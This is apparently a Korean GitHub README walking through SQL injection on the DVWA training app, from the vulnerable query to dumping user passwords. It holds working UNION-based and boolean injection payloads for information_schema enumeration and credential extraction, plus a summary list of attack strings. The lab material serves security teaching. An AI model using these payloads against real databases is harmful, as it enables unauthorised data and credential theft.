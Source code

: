 ## SQL 삽입 공격
이 도구를 이용하여 허용받지 않은 서비스 대상으로 해킹을 시도하는 행위는 범죄 행위 입니다.     
해킹을 시도할 때에 발생하는 법적인 책임은 그것을 행한 사용자에게 있다는 것을 명심하시기 바랍니다.           
      
SQL Injection 취약점은 웹 애플리케이션의 메시지를 이용하여 데이터베이스 내부의 정보를 유출하는 취약점입니다.     
공격자는 데이터베이스 쿼리에 임의의 SQL 쿼리를 삽입함으로써 공격이 이루어 집니다.      

![image](https://github.com/user-attachments/assets/138182d9-75ee-4b59-b146-9244a625c355)
SQL Injection 취약점 진단의 화면 입니다. 아래 링크에서 SQL Injection 설명을 보시면 도움이 되실겁니다.

![image](https://github.com/user-attachments/assets/681c8fe7-8620-4d30-a74d-e7facddab60a)
SQL Injection에 웹 소스코드 입니다. GET 메소드로 입력한 id 값을 저장하는 것을 확인할 수 있습니다.

![image](https://github.com/user-attachments/assets/85fdebb2-775e-44f5-834b-765623895e8d)
Low레벨의 소스코드를 보시면 쿼리문에서 ID를 입력했을때 users 테이블에서 First name과 Surname을 검색하여 출력하는 단순한 구조로 되어 있습니다.     
여기서 문제점은 User ID를 검색하는 과정에서 입력 값 검증이 이루어 지지 않는다는 점입니다.     
"SELECT first_name, last_name FROM users WHERE user_id = '$id';";     

여기서 전체적으로 소스코드를 분석해보면 GET 메소드로 매개변수를 전달하며 ID와 Submit 2개의 매개변수가 존재하는 것을 파악할 수 있습니다.    

![image](https://github.com/user-attachments/assets/2347cafe-2b9a-48e3-b18a-3b28928a2528)            
      
User 테이블에서 User ID가 1인 first_name 필드와 last_name 필드를 출력합니다.     
User ID 값을 1씩 증가시켜 순차적으로 전체 테이블 내의 내용을 검색해 보시기 바랍니다.     
http://IP정보/vulnerabilities/sqli/?id=1&Submit=SubmitSQL Injection에는 다양한 공격 기법이 있지만 페이지에서 에러가 발생한다면      
Error-Based SQL Injection 과 UNION SQL Injection을 사용하는 것이 일반적입니다.      
그럼 매개변수에 특수문자를 삽입하여 SQL 에러가 발생하는지 확인을 해보도록 하겠습니다.        
일반적으로 특수문자는 싱글쿼터('), 더블쿼터("), 세미콜론(;) 등을 사용합니다.         

![image](https://github.com/user-attachments/assets/50395354-3675-4f5f-ae69-74ad6047e279)         
위에 화면은 에러를 발생시켰을때 화면 입니다.         
이와 같은 에러 정보는 데이터베이스마다 다르며 HTTP 응답 코드 또한 다를수 있습니다.           
500번 에러는 내부 서버 에러로 발생하는 경우가 일반적이며 200번 에러는 HTTP 요청을 성공했을때 발생을 합니다.     
프록시 툴을 통하여 HTTP 응답 헤더를 확인할수도 있습니다.        

![image](https://github.com/user-attachments/assets/ca955bf7-c39e-4ab5-9e8b-687af8e9aba8)

해당화면은 입력값에 비정상적인 쿼리 값을 입력했을때의 화면입니다.
' or 1=1 #을 입력하면 쿼리 결과가 항상 참이 되므로 테이블 내 전체 내용을 출력합니다.
#은 주석처리를 의미합니다.■ 테이블과 필드의 정의를 알아보도록 하겠습니다.
- information_schema.schemata : 데이터베이스와 관련된 정보를 가진 테이블
- - schema_name : 모든 데이터베이스의 이름 값을 가진 필드
  - - information_schema_tables : 테이블과 관련된 정보를 가진 테이블
    - - tables_name : 모든 테이블의 이름 값을 가진 필드
      - - information_schema.columns : 필드와 관련된 정보를 가진 테이블
        - - column_name : 모든 필드의 이름 값을 가진 필드■ Union 구문을 통한 DB 구조파악 순서
          - - order by를 통한 column 갯수 확인
            - - DB 버전 정보 확인- database 정보 확인
              - - table 정보 확인- column 정보 확인
                - - recode 정보 확인User
테이블 내용을 전부 출력했다면 이제 SQL Injection을 이용하여 총 필드개수를 파악해 보도록 하겠습니다.      
' order by 1 #http://IP정보/vulnerabilities/sqli/?id=%27+order+by+1+%23&Submit=Submit값을 바꿔가면서 에러가 언제 발생하는지 확인하시기 바랍니다.           
공격 대상의 SQL Injection 취약점을 확인했다면 가장 먼저 필드 개수 파악을 진행하는 것이 일반적인 방법 입니다.          
Order by 구문은 필드 값을 정렬할때 사용하며 여기에서는 전체 필드 개수를 파악하기 위함 입니다.다른 방법으로는 UNION을 사용하여 Null 값을 1씩 증가하게 하면서 필드 개수가 일치하는 지점까지 찾아볼 수도 있습니다.      
        
확인결과 해당 DB는 2개의 column을 가지고 있는것을 확인하였고, 공격 코드는 2개의 column을 포함하여 쿼리를 수행하도록 하겠습니다.     
' union select null, null #필드 값을 파악했으니 Union을 이용하여 데이터베이스와 버전 정보를 확인해 보도록 하겠습니다.     
![image](https://github.com/user-attachments/assets/706b7356-a293-4edb-a350-5c985024b044)
        
' and 1=1 union select database(), version() #' and 1=1 union select "text", @@version #User 정보 확인    
' union SELECT null, user() #Union select를 이용하여 중요 정보 및 파일을 출력할수 있다는것을 확인하였습니다.    

![image](https://github.com/user-attachments/assets/4e06a86e-7963-4063-afac-68fe8242a8ba)
table_schema 출력' and 1=1 union SELECT "text", table_schema FROM information_schema.tables #     

![image](https://github.com/user-attachments/assets/8061777a-097d-458a-b8bf-45a79682dd2c)
모든 DB의 테이블명 출력, 여기서 우리가 찾고자 하는것은 'dvwa'인 테이블명 입니다.'      
and 1=1 union SELECT table_schema, table_name FROM information_schema.tables #' and 1=1 union SELECT table_name, table_schema FROM information_schema.tables where table_schema='dvwa' #      

![image](https://github.com/user-attachments/assets/0cd8e358-48a4-44bc-b62c-7de6c22c7671)
users 테이블에 column명을 알아보았습니다.      
그중에 password 행을 확인하였습니다.' and =1=1 union SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #    

![image](https://github.com/user-attachments/assets/0eeab25b-2b09-42a8-8395-72c3eab1f662)

아이디와 패스워드를 출력한 화면 입니다.     
' and 1=1 union SELECT first_name, password FROM dvwa.users #Medium 레벨, High레벨은 프록시 툴을 이용해 보시기 바랍니다.     
![image](https://github.com/user-attachments/assets/e6d331f2-3489-4e17-82bc-4e71c1bc5c6c)

공격 구문 정리
```
%' or '1' ='1%' order by 1 #
%' or 1=1 union select null, version() #
%' or 1=1 union select null, user() #
%' or 1=1 union select null, database() #
%' and 1=0 union select null, table_name from information_schema.tables #
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'users'#
%' and 1=0 union select null, concat(first_name, 0x0a, 0x0a, user, 0x0a, password) from users      
1' union select null, version() -- -
```

## More Information
https://www.securiteam.com/securityreviews/5DP0N1P76E.html
https://en.wikipedia.org/wiki/SQL_injection
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
https://owasp.org/www-community/attacks/SQL_Injection
https://bobby-tables.com/
